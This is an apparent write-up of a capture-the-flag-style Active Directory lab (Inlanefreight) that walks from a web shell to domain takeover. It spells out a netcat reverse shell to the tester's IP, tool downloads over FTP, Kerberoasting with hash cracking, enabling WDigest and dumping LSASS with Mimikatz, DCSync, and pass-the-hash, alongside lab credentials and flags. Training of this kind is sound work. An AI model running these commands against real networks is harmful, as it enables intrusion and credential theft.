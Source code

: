 # Skills Assessment Part 1

We are provided with a password-protected web shell (credentials `admin:My_W3bsH3ll_P@ssw0rd!`) in the `/uploads` directory.

Our client, Inlanefreight, authorised us to see how far we can take our foothold and see what types of high-risk issues exist within the AD environment. We will aim to achieve domain compromise.

### Information
Provided target: `10.129.202.242`<br>
My IP: `10.10.16.9`

## Approach

To access the web shell, we can go to http://10.129.202.242/uploads/antak.aspx and provide the necessary credentials. This gives us a PowerShell to work with.

**Submit the contents of the flag.txt file on the administrator Desktop of the web server**

To obtain the flag on the administrator's desktop, we can do:
```powershell
PS > type C:\Users\administrator\Desktop\flag.txt
```
![flag](img/first_flag.png)<br>
The flag is `JusT_g3tt1ng_st@rt3d!`.

**Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer**

To get a more stable shell, we can set up a reverse shell using [nc.exe](https://github.com/int0x33/nc.exe/). ([Reference](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/))

Before that, I will set up a Python3 FTP server on my machine so that I can transfer files to my target.<br>
On my machine:
```bash
sudo python3 -m pyftpdlib --port 21
```
On Windows target:
```powershell
## Create C:\Tools directory
PS > New-Item -Path "C:\Tools" -ItemType Directory

## Transfer file from my machine
PS > (New-Object Net.WebClient).DownloadFile('ftp://10.10.16.9/nc.exe', 'C:\Tools\nc.exe')
```
Now, we can set up a reverse shell.<br>
On my machine:
```bash
## set up a listener on port 1234
sudo nc -nlvp 1234
```
On Windows target:
```powershell
PS > C:\Tools\nc.exe -e powershell 10.10.16.9 1234
```
![reverse shell](img/first_revshell.png)

To find the user associated with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433, I ran:
```powershell
PS > setspn.exe -Q */*
```
![spn](img/setspn.png)<br>
Hence, I found that `svc_sql` is associated with that SPN.

**Crack the account's password. Submit the cleartext value.**

Through the FTP server as shown above, I will transfer [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon) to perform kerberoasting on `svc_sql` and export their Kerberos ticket.
```powershell
PS > (New-Object Net.WebClient).DownloadFile('ftp://10.10.16.9/PowerView.ps1', 'C:\Tools\PowerView.ps1')
PS > Import-Module ./PowerView.ps1
```
I will also transfer [Mimikatz](https://github.com/ParrotSec/mimikatz) to the target.
```powershell
PS > (New-Object Net.WebClient).DownloadFile('ftp://10.10.16.9/mimikatz/x64/mimikatz.exe', 'C:\Tools\mimikatz.exe')
```
Now, we will target `svc_sql` and obtain their Kerberos ticket.
```powershell
Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat
```
![svc_sql hash](img/svc_sql_hash.png)<br>
We can then copy the hash to a file, `svc_sql_hash`, on our machine and crack it with Hashcat.
```bash
hashcat -m 13100 svc_sql_hash /usr/share/wordlists/rockyou.txt

## to view results
hashcat -m 13100 --show svc_sql_hash
```
![hashcat](img/svc_sql_hashcat.png)<br>
We found the cleartext password for `svc_sql`, which is `luck7`.

**Submit the contents of the flag.txt file on the Administrator desktop on MS01**

Let's first find out the IP address of MS01 using `ping MS01`.<br>
![ping](img/ping_ms01.png)<br>
We can see that the IP address of MS01 is `172.16.6.50`.

To access MS01 from my machine, I will be using [Chisel](https://github.com/jpillora/chisel?tab=readme-ov-file). We can transfer Chisel with the same FTP server as set up before.
```powershell
PS > (New-Object Net.WebClient).DownloadFile('ftp://10.10.16.9/chisel.exe', 'C:\Tools\chisel.exe')
```
To set up Chisel:

On our machine:
```bash
./chisel client -v 10.129.202.242:1111 socks
```
On Windows target:
```powershell
PS > .\chisel.exe server -v -p 1111 --socks5
```
![chisel](img/chisel.png)<br>
With this, we successfully set up Chisel and now can access MS01 by adding `proxychains` in front of our commands.

We can then RDP to MS01 with `svc_sql:luck7`.
```bash
proxychains xfreerdp3 /u:svc_sql /p:lucky7 /v:172.16.6.50 /dynamic-resolution
```
With this, I used PowerShell and got the flag on the Adminstrator's desktop.<br>
![flag](img/second_flag.png)<br>
The flag is `spn$_r0ast1ng_on_@n_0p3n_f1re`.

**Find cleartext credentials for another domain user. Submit the username as your answer.**

First, we can transfer all the tools from `10.129.202.242` to `MS01`.<br>
On `10.129.202.242`:
```powershell
## Setting up PSCredential Object
PS > $password = ConvertTo-SecureString "lucky7" -AsPlainText -Force
PS > $cred = New-Object System.Management.Automation.PSCredential("svc_sql", $password)

## Setting up PS Session Object
PS > $Session = New-PSSession -ComputerName MS01 -Credential $cred

## Copying directory through the PS Session
PS > Copy-Item "C:\Tools" -Destination "C:\Tools" -Recurse -ToSession $Session
```

With this, we can use Mimikatz on MS01 with an elevated PowerShell.<br>
I will be extracting credentials from memory using `sekurlsa::logonpasswords`.<br>
![sekurlsa](img/sekurlsa.png)<br>
Looking through the output, I noticed something interesting. <br>
![tpetty](img/tpetty_sekurlsa.png)

I found a domain user, `tpetty`.

**Submit this user's cleartext password.**

We have tpetty's NT hash, `fd37b6fec5704cadabb319cebf9e3a3a`. Let's try to crack it with Hashcat.<br>
First, I saved the NT hash to `tpetty_ntlm.txt`
```bash
hashcat -m 1000 tpetty_ntlm.txt /usr/share/wordlists/rockyou.txt
```
However, we are not able to crack the password.

I know that WDigest enables credentials to be cached by LSASS in cleartext.<br>
To check if WDigest is enabled (value should be 1):
```powershell
PS > reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```
To enable WDigest:
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```
![wdigest](img/wdigest.png)<br>

With this, we restart `MS01`, then run Mimikatz and `sekurlsa::logonpasswords` again and we found `tpetty`'s credentials.<br>
![tpetty](img/tpetty_cred.png)

The password for `tpetty` is `Sup3rS3cur3D0m@inU2eR`.

**What attack can this user perform?**

First, I will perform Access Control List (ACL) enumeration. Remember to activate PowerView with `Import-Module .\PowerView.ps1`.

```powershell
PS > Convert-NameToSid tpetty
PS > Get-DomainObjectAcl -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
![ACL enumeration](img/tpetty_acl.png)<br>
We can see that `tpetty` has "DS-Replication-Get-Changes-In-Filtered-Set", "DS-Replication-Get-Changes", and "DS-Replication-Get-Changes-All" in his ACL.

So, the user can perform a DCSync attack.

**Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01**

To perform a DCSync attack, we need to run as `tpetty`. We can do so with `runas.exe`.
```powershell
PS > runas /netonly /user:INLANEFREIGHT\tpetty powershell
```
This creates a powershell that is running under the domain user `tpetty`.<br>
![tpetty PS](img/tpetty_ps.png)<br>
With this, we can run Mimikatz, then perform the DCSync attack on the Administrator account.
```text
PS > .\mimikatz.exe

mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT/Administrator
```
![DCSync](img/tpetty_dcsync.png)<br>
This allowed me to obtain the Administrator's NT hash, `27dedb1dab4d8545c6e1c66fba077da0`.

We can now perform Pass-The-Hash and use the Administrator's hash to log in to DC01.<br>
Using `ping DC01`, I found out that the IP address of DC01 is `172.16.6.3`.

With this, I can use `evil-winrm` to access a PS session on DC01 from my machine.
```bash
proxychains evil-winrm -i 172.16.6.3 -u Administrator -H 27dedb1dab4d8545c6e1c66fba077da0
```
Then, I was able to obtain the flag located on the Desktop.<br>
![third_flag](img/third_flag.png)

The contents of flag.txt on the Administrator Desktop on DC01 is `r3plicat1on_m@st3r!`.